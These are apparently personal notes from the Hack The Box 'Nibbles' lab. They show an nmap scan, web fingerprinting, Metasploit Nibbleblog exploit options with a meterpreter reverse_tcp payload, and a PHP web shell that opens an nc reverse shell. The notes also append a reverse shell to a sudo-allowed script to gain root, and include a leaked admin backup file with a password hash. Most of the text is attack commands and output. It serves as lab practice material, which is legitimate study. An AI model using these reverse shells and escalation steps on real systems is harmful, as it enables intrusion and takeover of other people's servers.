 # Nmap 7.92 scan initiated Sun Apr 10 18:04:05 2022 as: nmap -oG - 10.129.122.75
Host: 10.129.122.75 ()  Status: Up
Host: 10.129.122.75 ()  Ports: 22/open/tcp//ssh///, 80/open/tcp//http///       Ignored State: closed (998)
# Nmap done at Sun Apr 10 18:04:21 2022 -- 1 IP address (1 host up) scanned in 15.74 seconds


http://10.129.122.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.122.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]




   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  178.128.174.74   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3



################################

Some random notes ... maybe from the final exercise in the Getting Start module? 

curl http:/10.129.86.175/nibbleblog/content/private/plugins/my_image/image.php
nc -lnvp 12808

python3 -c 'import pty; pty.spawn("/bin/bash")'
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.25 12808 >/tmp/f"); ?>

sudo python3 -m http.server 8080


[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh


echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.25 12809 >/tmp/f' | tee -a monitor.sh


http://10.129.230.192/backups/users/admin.xml.bak


<item>
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
